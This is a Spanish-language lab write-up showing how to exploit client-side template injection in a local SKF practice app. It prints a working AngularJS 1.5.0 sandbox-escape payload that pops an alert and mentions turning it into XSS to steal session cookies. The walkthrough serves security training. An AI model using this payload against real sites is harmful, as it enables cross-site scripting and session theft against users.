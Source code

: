 ```yaml
---
title: "[Lab] Client-Side Template Injection (CSTI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python]
---
```




# Client-Side Template Injection (CSTI)



## Requerimientos

```bash
apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
rm get-pip.py
```

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
pip2 install -r requirements.txt
python2 CSTI.py
```

Esto lo que hará es correr un servidor web de forma local sin contenedores:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled.png)

La web se ve de esta forma:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 1.png)

Este lab sirve para entender el concepto de cómo funciona un CSTI más que para un escenario real.

Al ingresar un input, por ejemplo, la palabra “Hola”, esta se vería reflejada en el servidor:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 2.png)

A comparación con el SSTI, la idea es la misma, inyectar un input para verlo reflejado en el servidor pero la diferencia radica en que la inyección en este caso se ve reflejada o la ejecuta el navegador del cliente y no el servidor en sí por lo que aquí la ejecución de comandos para ver archivos internos del servidor no aplican pero la idea de este ataque es derivarlo a un XSS para obtener algún tipo de información valiosa del usuario como cookies de sesión entre otras cosas.

En este caso se puede utilizar el repositorio de PayloadAllTheThings, en este caso se puede ver en la web que se está utilizando una versión en particular de Angularjs, la 1.5.0 por lo que se buscarán payloads para esa versión:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 3.png)

En este caso, el payload que se utilizará es el siguiente:

```bash
{% raw %}
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
{% endraw %}
```

Este payload, está haciendo un “alert(1)" de forma que cuando esto se ingrese en la web, mostrará una alerta con valor 1:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 4.png)

También se puede representar strings por ejemplo la palabra “PWNED”, en este caso se pasará el string a decimal para que no haya problemas de interpretación y para esto se utilizará python:

```bash
sentence = "PWNED"
for character in sentence:
	print(ord(character))
```

*ord() permite pasar los caracteres a decimal.*

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 5.png)

Luego estos caracteres de pueden tratar para representarlos en una misma línea:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 6.png)

Ahora esto se puede incluir en el payload

```bash
{% raw %}
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(80,87,78,69,68)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
{% endraw %}
```

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 7.png)
